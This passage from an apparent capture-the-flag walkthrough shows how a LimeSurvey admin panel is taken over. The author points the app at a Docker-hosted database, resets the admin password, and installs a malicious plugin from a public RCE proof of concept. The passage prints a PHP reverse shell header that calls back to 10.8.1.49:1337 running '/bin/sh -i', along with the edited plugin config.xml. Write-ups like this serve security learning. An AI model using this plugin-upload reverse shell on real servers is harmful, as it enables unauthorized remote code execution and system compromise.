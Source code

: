 We can now point the database to our Docker container.
![Pasted image 20240714125754.png](/images/Pasted image 20240714125754.png){: .normal }


We can now set the password of the admin user to “password”.
![Pasted image 20240714125749.png](/images/Pasted image 20240714125749.png){: .normal }


Use the credentials to login to the admin panel: `admin:password`.
![Pasted image 20240714125739.png](/images/Pasted image 20240714125739.png){: .normal width="400"}


While browsing the admin page, we find a pluginmanager where we can upload and install plugins.
![Pasted image 20240714125734.png](/images/Pasted image 20240714125734.png){: .normal }


Whilst googling for authenticated RCE exploits for limesurvey I came across the following: [PoC](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE). Start by modifying the IP in the PHP reverse shell.
```bash
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ head php-rev.php 
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.1.49';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```

Next, we need to modify the config.xml file (we need to modify the version, otherwise limesurvey will think that the plugin isn’t compatible).
```bash
┌──(kali㉿kali)-[~/Limesurvey-RCE]
└─$ cat config.xml 
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2023-03-20</creationDate>
        <lastUpdate>2023-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl><https://github.com/Y1LD1R1M-1337></authorUrl>
        <supportUrl><https://github.com/Y1LD1R1M-1337></supportUrl>
        <version>6.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```
